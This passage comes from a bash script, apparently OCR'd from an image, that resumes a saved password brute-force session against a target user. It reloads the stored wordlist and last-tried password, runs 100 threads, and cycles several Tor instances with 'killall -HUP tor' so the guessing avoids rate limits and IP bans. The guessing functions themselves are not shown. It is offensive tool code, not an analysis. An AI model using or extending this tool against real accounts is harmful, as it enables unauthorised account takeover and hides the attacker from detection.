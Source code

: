 banner 
checkroot
dependencies

countern=1
if [[ ! -d sessions ]]; then
printf "\e[1;91m[*] No sessions\n\e[0m"
exit 1
fi
printf "\e[1;92mFiles sessions:\n\e[0m"
for list in $(ls sessions/store.session*); do
IFS=$'\n'
source $list
printf "\e[1;92m%s \e[0m\e[1;77m: %s (\e[0m\e[1;92mwl:\e[0m\e[1;77m %s\e[0m\e[1;92m,\e[0m\e[1;92m lastpass:\e[0m\e[1;77m %s )\n\e[0m" "$countern" "$list" "$wl_pass" "$pass"
let countern++
done
read -p $'\e[1;92mChoose a session number: \e[0m' fileresume
source $(ls sessions/store.session* | sed ''$fileresume'q;d')
default_threads=100
threads="${threads:-${default_threads}}"

printf "\e[1;92m[*] Resuming session for user:\e[0m \e[1;77m%s\e[0m\n" $user
printf "\e[1;92m[*] Wordlist: \e[0m \e[1;77m%s\e[0m\n" $wl_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
multitor

while [ true ]; do
killall -HUP tor
###pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3"; pkill -f -HUP "tor -f multitor/multitor4"; pkill -f -HUP "tor -f multitor/multitor5"

bf1resume 
let turn+=20
bf2resume
let turn+=20
bf3resume
let turn+=20
bf4resume 
let turn+=20
bf5resume

let turn-=60
###
killall -HUP tor
#pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3";pkill -f -HUP "tor -f multitor/multitor4";pkill -f -HUP "tor -f multitor/multitor5"

done
}


case "$1" in --resume) resume ;; *)
